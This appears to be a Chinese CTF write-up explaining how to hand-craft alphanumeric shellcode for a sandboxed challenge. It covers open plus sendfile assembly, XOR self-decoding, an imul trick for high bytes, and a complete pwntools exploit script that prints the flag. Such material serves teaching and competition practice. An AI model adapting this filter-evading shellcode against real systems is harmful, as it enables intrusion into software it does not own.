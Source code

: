 ```yaml
---
title: 一道异或手搓shellcode
date: 2024-9-1
categories: shellcode
---
```

# 审题
![main](./alphacode/main.png)
很清晰的看到，题目是给了一个0x53的shellcode读入，并且限制必须是`0-9,A-Z,a-z`中的字符，并且直接清零了除了rsp和rip之外的所有寄存器。
![sandbox](./alphacode/sandbox.png)
以及程序甚至还有沙箱，禁用了大部分系统调用，read也被禁用，而且还有第一三四个参数必须为0或1的规则。基本上只剩下了open('flag',0,0)加上sendfile的方法。

由于shellcode的字节太少，不能通过现成的ae64，alpha3之类的可视化字符生成工具来写shellcode，必须用到异或手搓。
# 思路
通过异或的方式来恢复shellcode中违规字符，那么第一步就是先编写好shellcode，并且尽可能减少其中违规字符的出现频率，以达到减少异或解码段长度的目的。
```asm
# open('flag',0,0)
push 0x67616c66
push rsp
pop rdi
push 0x2
pop rax
syscall

# sendfile(1,0,0,1)
label:
push 0x1
push 0x28
pop rax
push rdx
pop rsi
pop rdi
push rdi
pop r10
syscall
jmp label
```
如上汇编代码的机器码为
```python
shellcode = b'\x68\x66\x6C\x61\x67\x54\x5F\x6A\x02\x58\x0F\x05'
shellcode+= b'\x6A\x01\x6A\x28\x58\x52\x5E\x5F\x57\x41\x5A\x0F\x05\xEB\xF1'
```
然后编写一个简单的脚本，找出合法字符集合中是否存在字符A，能够与shellcode中的任意非法字符异或得到合法字符集中的字符(怎么突然严谨起来了)
```python
wrongset = []
wrongset.append(0x5f)
wrongset.append(0x02)
wrongset.append(0x0f)
wrongset.append(0x05)
wrongset.append(0x01)
wrongset.append(0x28)
wrongset.append(0x5e)
# 0x6a
wrongset.append(0xeb)
wrongset.append(0xf1)
# 0xa8

charset = []
for i in range(0x30,0x3a,1):
    charset.append(i)
for i in range(0x41,0x5b,1):
    charset.append(i)
for i in range(0x61,0x7b,1):
    charset.append(i)
for char in charset:
    print(chr(char))
    count = 0
    for wrongchar in wrongset:
        if wrongchar^char in charset:
            print(f'{hex(wrongchar)}^{hex(char)} in charset')
            count += 1
    print(f'{hex(char)} got {count} points')
```
结论是前面的七个非法字节都有很多字符满足条件，我最后选择了0x6a。而shellcode中的最后两个字节，也就是jmp -0xf，由于0xeb和0xf1都大于0x7f，必须要大于0x7f的数字与合法字符异或才能得到，这一部分我参考火箭的思路，选择了imul的乘法来得到大数。

接下来着手编写异或解码段，我选择了`xor [rdi+立即数],dl`作为异或。那么就需要rdi是一个指向`0x20240000`的数，由于`0x20240000`也是非法字符，所以只能通过异或来取得。

由于我是个笨蛋，没想到怎么写比较好，就抄了官方wp的前面这一部分
```
push 0x6a6a6a6a;push rsp;pop rcx
xor edi,[rcx]
pop rdx;push 0x4a4e6a4a
xor edi,[rcx]
```
然后就是重复使用`xor [rdi+立即数],dl`
```
xor [rdi + 0x3c + 7 + 1],dl
xor [rdi + 0x3c + 9 + 1],dl
xor [rdi + 0x3c + 0xe + 1],dl
xor [rdi + 0x3c + 0x10 + 1],dl

xor [rdi + 0x3c + 0x13 + 1],dx
xor [rdi + 0x3c + 0xb + 1],dx
xor [rdi + 0x3c + 0x18 + 1],dx
```
如果有连续两个非法字符连在一起，还可以使用`dx`来一次改两个字节

接下来是处理最后的两个字节`0xEBF1`
我使用`imul r15,[rcx],0x44`，将[rcx]的值乘以0x44，放进r15。本来还想使用rsi的，能省一个字节，但问题是之后还得将rsi清零，要不然会影响syscall的结果，权衡一下还是很明确使用r15更划算。
[rcx]的值是`0x4a4e6a4a`根据我的遍历，得到了0x44是可以使用的，0x44*0x4a=0xa8。而我的遍历脚本告诉我0xa8可以与0xeb以及0xf1分别异或都能得到合法字符。

在imul之后，继续吧r15的值给rdx，继续`xor [rdi+立即数],dl`
```
push r15;pop rdx
push r15;pop rdx
xor [rdi + 0x57],dl
xor [rdi + 0x58],dl

push rax;pop rdx # 将等会会用到的参数清零，以保证syscall得到正确结果
```
# 整体exp
```python
shellcode = asm('''
push 0x6a6a6a6a;push rsp;pop rcx
xor edi,[rcx]
pop rdx;push 0x4a4e6a4a
xor edi,[rcx]

xor [rdi + 0x3c + 7 + 1],dl
xor [rdi + 0x3c + 9 + 1],dl
xor [rdi + 0x3c + 0xe + 1],dl
xor [rdi + 0x3c + 0x10 + 1],dl

xor [rdi + 0x3c + 0x13 + 1],dx
xor [rdi + 0x3c + 0xb + 1],dx
xor [rdi + 0x3c + 0x18 + 1],dx

imul r15,[rcx],0x44
push r15;pop rdx
xor [rdi + 0x57],dl
xor [rdi + 0x58],dl

push rax;pop rdx
''')

# 7,9,(0xb,0xc)
shellcode+= b'\x68\x66\x6C\x61\x67\x54\x35\x6A\x68\x58\x65\x6F'
originset = b'\x68\x66\x6C\x61\x67\x54\x5F\x6A\x02\x58\x0F\x05'

# 0xe,0x10,0x13,(0x17,0x18)
shellcode+= b'\x6A\x6B\x6A\x42\x58\x52\x34\x35\x57\x41\x5A\x65\x6F'
originset+= b'\x6A\x01\x6A\x28\x58\x52\x5E\x5F\x57\x41\x5A\x0F\x05\xEB\xF1'

shellcode+= b'\x43\x59'
# a8
io.send(shellcode)

io.recvuntil('>')
flag = io.recvuntil(b'}')
print(flag)
```
咳咳，太难搞了，很多数值在规划的时候没有办法获得准确结果，必须走一步看一步。而这样就心里很没底。


